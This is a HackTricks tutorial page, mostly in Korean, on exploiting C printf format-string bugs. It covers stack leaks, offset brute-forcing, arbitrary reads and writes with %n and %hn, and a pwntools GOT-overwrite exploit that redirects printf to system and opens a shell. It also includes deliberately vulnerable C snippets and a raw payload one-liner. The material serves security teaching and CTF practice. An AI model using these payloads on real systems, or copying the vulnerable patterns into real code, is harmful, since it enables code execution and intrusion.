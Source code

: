 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

C **`printf`**는 **문자열**을 **출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **형식 지정자가 포함된 원시 텍스트**입니다. **다음 매개변수**는 원시 텍스트의 **형식 지정자**를 **대체**할 **값**입니다.

다른 취약한 함수로는 **`sprintf()`**와 **`fprintf()`**가 있습니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 사용될 때** 발생합니다. 공격자는 **printf 형식** 문자열 기능을 악용하여 **어떤 주소(읽기/쓰기 가능한)**에서 **모든 데이터**를 읽고 **쓸 수 있는** **특별한 입력**을 만들 수 있습니다. 이렇게 해서 **임의 코드를 실행**할 수 있습니다.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:** 

* 취약한 예시:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 인수가 누락된 경우:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 취약점:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **포인터 접근**

형식 **`%<n>$x`**에서 `n`은 숫자로, printf에 스택에서 n번째 매개변수를 선택하도록 지시합니다. 따라서 printf를 사용하여 스택에서 4번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째부터 네 번째 매개변수까지 읽을 수 있습니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("%4$x")
```
and read directly the forth.

공격자가 `printf` **매개변수를 제어한다는 것은** 그의 입력이 `printf`가 호출될 때 스택에 존재한다는 것을 의미하며, 이는 그가 스택에 특정 메모리 주소를 쓸 수 있다는 것을 의미합니다.

{% hint style="danger" %}
이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`가 이를 접근하게 만들 수 있습니다**. 다음 섹션에서는 이 동작을 사용하는 방법이 설명될 것입니다.
{% endhint %}

## **임의 읽기**

형식 지정자 **`%n$s`**를 사용하여 **`printf`**가 **n 위치**에 있는 **주소**를 가져오고 **문자열처럼 출력**할 수 있습니다(0x00이 발견될 때까지 출력). 따라서 바이너리의 기본 주소가 **`0x8048000`**이고, 사용자 입력이 스택의 4번째 위치에서 시작된다는 것을 알고 있다면, 다음과 같이 바이너리의 시작 부분을 출력할 수 있습니다:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
입력의 시작 부분에 0x8048000 주소를 넣을 수 없다는 점에 유의하세요. 문자열은 해당 주소의 끝에서 0x00으로 잘리기 때문입니다.
{% endhint %}

### 오프셋 찾기

입력의 오프셋을 찾기 위해 4 또는 8 바이트(`0x41414141`)를 보낸 다음 **`%1$x`**를 추가하고 **값을 증가시켜** `A's`를 검색할 수 있습니다.

<details>

<summary>브루트 포스 printf 오프셋</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 얼마나 유용한가

임의 읽기는 다음과 같은 용도로 유용할 수 있습니다:

* **메모리에서** **바이너리**를 **덤프**하기
* **민감한** **정보**가 저장된 메모리의 특정 부분에 **접근하기** (예: 이 [**CTF 챌린지**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)와 같이)

## **임의 쓰기**

포맷터 **`%<num>$n`**은 스택의 \<num> 매개변수에 있는 **지정된 주소**에 **쓰기 바이트 수**를 **기록**합니다. 공격자가 printf를 사용하여 원하는 만큼의 문자를 쓸 수 있다면, 그는 **`%<num>$n`**을 사용하여 임의의 주소에 임의의 숫자를 쓸 수 있게 됩니다.

다행히도, 숫자 9999를 쓰기 위해 입력에 9999개의 "A"를 추가할 필요는 없으며, 대신 포맷터 **`%.<num-write>%<num>$n`**을 사용하여 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소**에 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
그러나 일반적으로 `0x08049724`와 같은 주소를 쓰기 위해 (한 번에 쓰기에는 엄청난 숫자임) **`$hn`**이 **`$n`** 대신 사용됩니다. 이는 **2바이트만 쓸 수 있게** 해줍니다. 따라서 이 작업은 주소의 가장 높은 2바이트와 가장 낮은 2바이트에 대해 각각 두 번 수행됩니다.

따라서 이 취약점은 **임의의 주소에 무엇이든 쓸 수 있게** 해줍니다.

이 예제에서 목표는 **나중에 호출될** **GOT** 테이블의 **함수**의 **주소**를 **덮어쓰는 것**입니다. 이는 다른 임의 쓰기를 악용하여 exec 기술을 사용할 수 있습니다:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

우리는 **사용자**로부터 **인수**를 **받는** **함수**를 **덮어쓰고**, 이를 **`system`** **함수**를 가리키게 할 것입니다.\
언급했듯이 주소를 쓰기 위해서는 일반적으로 2단계가 필요합니다: 먼저 주소의 2바이트를 쓰고, 그 다음에 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**이 사용됩니다.

* **HOB**는 주소의 2개의 높은 바이트를 호출합니다.
* **LOB**는 주소의 2개의 낮은 바이트를 호출합니다.

그런 다음, 포맷 문자열의 작동 방식 때문에 **먼저 더 작은** \[HOB, LOB]를 쓰고 그 다음에 다른 것을 써야 합니다.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 템플릿

이러한 종류의 취약점을 위한 익스플로잇을 준비할 **템플릿**을 다음에서 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

또는 [**여기**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)에서 이 기본 예제를 확인하세요:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

형식 문자열 취약점의 쓰기 작업을 악용하여 **스택의 주소에 쓰기** 및 **버퍼 오버플로우** 유형의 취약점을 악용할 수 있습니다.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 비트, no relro, no canary, nx, no pie, 스택에서 플래그를 누출하기 위한 형식 문자열의 기본 사용 (실행 흐름을 변경할 필요 없음)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 비트, relro, no canary, nx, no pie, win 함수로 `fflush` 주소를 덮어쓰는 형식 문자열 (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 비트, relro, no canary, nx, no pie, `.fini_array` 내의 main에 있는 주소를 쓰기 위한 형식 문자열 (흐름이 한 번 더 루프됨) 및 `strlen`을 가리키는 GOT 테이블의 `system` 주소를 쓰기. 흐름이 main으로 돌아가면, `strlen`이 사용자 입력과 함께 실행되고 `system`을 가리키면, 전달된 명령이 실행됩니다.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricks 지원하기

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.
{% endhint %}
